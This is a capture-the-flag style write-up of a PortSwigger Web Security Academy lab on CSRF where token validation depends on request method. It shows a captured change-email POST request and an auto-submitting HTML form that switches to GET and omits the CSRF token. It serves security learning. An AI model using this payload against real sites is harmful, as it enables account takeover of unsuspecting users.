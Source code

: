 # PortSwigger: [CSRF where Token Validation Depends on Request Method](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-request-method)

This is a valid POST request initiated by a logged-in user:

```http
POST /my-account/change-email HTTP/2
Host: 0a650063048614538281bf5700590043.web-security-academy.net
Cookie: session=Fr0dAU3G4s5ixvxQ8mn1Uvl67F21hjAD
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:139.0) Gecko/20100101 Firefox/139.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a650063048614538281bf5700590043.web-security-academy.net/my-account?id=wiener
Content-Type: application/x-www-form-urlencoded
Content-Length: 51
Origin: https://0a650063048614538281bf5700590043.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

email=a%40a.a&csrf=hN3CPjmJwe9hZzbKBltxaO33SUqAWpZf
```

The target validates the CSRF token when the request is via POST, but not for GET requests.

This exploit changes the request type (via `method=`) and omits the CSRF token entirely:

```html
<form action="https://0a650063048614538281bf5700590043.web-security-academy.net/my-account/change-email" method="GET">
  <input type="hidden" name="email" value="x@x.x" />
  <input type="submit" value="Submit request" />
</form>
<script>
  history.pushState('', '', '/');
  document.forms[0].submit();
</script>
```